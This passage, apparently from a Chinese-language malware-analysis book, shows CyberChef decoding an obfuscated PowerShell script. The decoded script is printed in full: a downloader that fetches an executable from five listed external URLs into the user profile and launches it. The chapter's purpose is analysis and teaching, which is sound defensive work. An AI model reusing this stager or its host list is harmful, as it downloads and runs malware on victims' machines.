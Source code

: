 图 15.10 – CyberChef – 配方

配方设置好后，点击**BAKE!**，以下结果应该会显示出来：

![图 15.11 – CyberChef 解码](img/B18571_15_011.jpg)

图 15.11 – CyberChef 解码

输出看起来是命令和 URL 的组合：

```
$Kqldfmbvr='Xidvorbkkcgta';$Fymbhyexmh = '593';$Nnrgqikkfqy='Bjspcpsecqf';$Osxjsuvbbxzc=$env:userprofile
+'\'+$Fymbhyexmh+'.exe';$Qeewlohvnhzjg='Tqytjxitodxzf';$Pvqkrn
oao=&('new-ob'+'jec'+'t') nET.WebcLIEnt;$Fkmngitga='http://oni
ongames.jp/contact/iY/*http://pmthome.com/posta/dr3zxa/*http:
//urgeventa.es/img/k35d9q/*https://solmec.com.ar/sitio/nTXZomKCx/*https://tiagocambara.com/cgi-bin/s96/'."SpL`IT"
('*');$Xmvtsffjfj='Nbsfvavkmslb';foreach($Qtykmgpyyczy in $Fkmngitga){try{$Pvqkrnoao."d`OWnloa`DfIlE"($Qtykmgpyyczy, $Osxjsuvbbxzc);$Lqsnocick='Mwrnhskzeus';If ((&('Ge'+'t'+'-Item') $Osxjsuvbbxzc)."l`eNg`Th" -ge 36952) {[Diagnostics.rocess]::"S`TARt"($Osxjsuvbbxzc);$Zjcyebtu='Pqrvhklqerie';
break;$Fzbbuntuulpsg='Musmxxqbo'}}catch{}}$Jbrhtvgftfzs=
'Bvvggpdikswqr'
```

